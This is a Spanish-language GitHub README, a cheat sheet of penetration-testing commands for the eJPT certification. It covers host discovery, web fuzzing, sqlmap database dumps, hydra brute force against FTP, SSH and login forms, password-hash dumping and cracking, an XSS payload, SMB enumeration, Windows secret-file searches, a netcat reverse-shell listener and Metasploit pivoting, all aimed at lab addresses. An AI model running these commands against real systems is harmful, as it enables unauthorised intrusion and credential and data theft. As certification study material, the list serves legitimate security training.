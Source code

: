 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT
# Barrido de ping - Ping sweep
## Nmap
```sql
nmap -sn 10.10.10.0/24
```
## fping
```sql
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Password cracking
## John
```python
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```sql
unshadow passwd shadow > hashes.txt
```
# Fuzzing
## Nmap
```python
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```python
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```sql
dirb http://10.10.15.12
```
## gobuster
```sql
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```sql
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
# Hydra
```sql
hydra -v -l admin -P passlist.txt ftp://192.168.0.1
hydra -v -L userlist.txt -P passlist.txt ftp://192.168.0.1
hydra -v -l root -P passwords.txt -t 1 -u 10.10.14.10 ssh
hydra http://10.10.14.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect" -L userlist.txt -P passwordslist.txt
```
# XSS
```sql
<script>alert(xss)</script>
<h1>H1</h1>
```
# SMB
## Enumeración de SMB
```python
smbclient -L 10.10.14.12 -N
smbmap -H 10.10.14.12 -u 'null'
nmap --script=smb-vuln* -p445 10.10.14.15 -oN smbScan
smbmap -H 10.10.14.15 -R backups -u 'null'
```
## Acceso al recurso compartido **backups**
```sql
smbclient //10.10.14.15/backups
```
# FTP
## Enumeración de FTP
```python
nmap --script=ftp-anon -p21 10.10.14.12
ftp 10.10.14.12
cd ..
```
## FTP - Fuerza Bruta
```sql
hydra -l admin -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```
# Enumeración de windows
```sql
dir /b/s "\*.conf*"
dir /b/s "\*.txt*"
dir /b/s "\*secret*"
route print
netstat -r
fsutil fsinfo drives
wmic logicaldisk get Caption,Description,providername
```
# Reverse Shell
## nc
```sql
nc -nlvp 443
```
## metasploit
```sql
msfconsole
```
# Post Explotación
## Pivoting
### Ip Route
```sql
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
### Metasploit
```sql
run autoroute -s 10.10.16.0/24
```
## Wireshark
```sql
ip.addr==192.168.12
ip.src == 192.168.2.11
ip.dst == 192.168.2.15
```
